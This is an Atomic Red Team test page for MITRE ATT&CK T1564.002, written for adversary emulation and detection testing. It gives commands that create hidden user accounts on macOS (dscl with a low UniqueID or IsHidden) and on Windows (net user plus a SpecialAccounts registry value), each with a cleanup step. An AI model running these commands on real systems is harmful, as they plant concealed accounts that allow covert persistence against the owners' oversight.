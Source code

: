```yaml
---
tags: [T1564_002, atomic_test]
filename: "[[T1564.002|T1564.002 - Hide Artifacts: Hidden Users]]"
---
```

# T1564.002 - Hide Artifacts: Hidden Users

## Atomic Test #1 - Create Hidden User using UniqueID < 500
Add a hidden user on macOS using Unique ID < 500 (users with that ID are hidden by default)

**Supported Platforms:** macOS


**auto_generated_guid:** 4238a7f0-a980-4fff-98a2-dfc0a363d507





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username to add | string | APT|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo dscl . -create /Users/#{user_name} UniqueID 333
```

#### Cleanup Commands:
```sh
sudo dscl . -delete /Users/#{user_name}
```





<br/>
<br/>

## Atomic Test #2 - Create Hidden User using IsHidden option
Add a hidden user on macOS using IsHidden optoin

**Supported Platforms:** macOS


**auto_generated_guid:** de87ed7b-52c3-43fd-9554-730f695e7f31





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username to add | string | APT|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo dscl . -create /Users/#{user_name} IsHidden 1
```

#### Cleanup Commands:
```sh
sudo dscl . -delete /Users/#{user_name}
```





<br/>
<br/>

## Atomic Test #3 - Create Hidden User in Registry
Adversaries may similarly hide user accounts in Windows. Adversaries can set the HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList Registry key value to 0 for a specific user to prevent that user from being listed on the logon screen.
Reference https://attack.mitre.org/techniques/T1564/002/ and https://thedfirreport.com/2022/07/11/select-xmrig-from-sqlserver/

**Supported Platforms:** Windows


**auto_generated_guid:** 173126b7-afe4-45eb-8680-fa9f6400431c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_password | Password for new user account | string | At0micRedTeam!|
| user_name | Username | string | AtomicOperator|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
NET USER #{user_name}$ #{user_password} /ADD /expires:never 
REG ADD "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v #{user_name}$ /t REG_DWORD /d 0
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v #{user_name}$ /f >nul 2>&1
net user ${user_name}$ /delete >nul 2>&1
```





<br/>
